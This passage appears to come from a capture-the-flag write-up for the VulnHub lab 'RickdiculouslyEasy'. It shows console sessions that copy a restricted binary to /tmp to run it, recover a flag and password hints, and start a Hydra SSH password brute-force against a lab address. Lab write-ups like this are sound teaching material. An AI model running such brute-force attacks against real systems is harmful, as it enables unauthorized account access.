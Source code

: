 ```console
[Summer@localhost ThisDoesntContainAnyFlags]$ tail NotAFlag.txt 
hhHHAaaaAAGgGAh. You totally fell for it... Classiiiigihhic.
But seriously this isn't a flag..
[Summer@localhost ThisDoesntContainAnyFlags]$ 
```

I guess that is not a flag, taking a look at safe, I could not run the file from his folder, but creating a /tmp directory that summer could execute it from allowed me to run his executable and the flag was the password

```console
Summer@localhost RICKS_SAFE]$ ls
safe
[Summer@localhost RICKS_SAFE]$ ./safe
-bash: ./safe: Permission denied
[Summer@localhost RICKS_SAFE]$ ./safe 131333
-bash: ./safe: Permission denied
[Summer@localhost RICKS_SAFE]$ cp safe /tmp/safe
[Summer@localhost RICKS_SAFE]$ cd /tmp
[Summer@localhost tmp]$ ls
safe  systemd-private-5af90257b75c4d688c7f049c22658970-chronyd.service-pkDDqe  systemd-private-5af90257b75c4d688c7f049c22658970-httpd.service-ibXPN3
[Summer@localhost tmp]$ cd safe
-bash: cd: safe: Not a directory
[Summer@localhost tmp]$ ./safe 131333
decrypt: 	FLAG{And Awwwaaaaayyyy we Go!} - 20 Points

Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order


1 uppercase character
1 digit
One of the words in my old bands name.�	@
[Summer@localhost tmp]$ 
```
Without the password 

```console
[Summer@localhost tmp]$ ./safe
Past Rick to present Rick, tell future Rick to use GOD DAMN COMMAND LINE AAAAAHHAHAGGGGRRGUMENTS!
```
So we have to make a wordlist, this is a head ache.... I found this tool that looks easy to use that is already on Kali. Crunch 

https://null-byte.wonderhowto.com/how-to/tutorial-create-wordlists-with-crunch-0165931/

### Hydra

```console
noob2uub@kali:~/Documents/vulnhub/rickdiculouslyeasy$ hydra -s 22222 -v -V -l RickSanchez -P ricklist.txt 192.168.1.228 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-22 13:43:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 781 login tries (l:1/p:781), ~49 tries per task
[DATA] attacking ssh://192.168.1.228:22222/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://RickSanchez@192.168.1.228:22222
```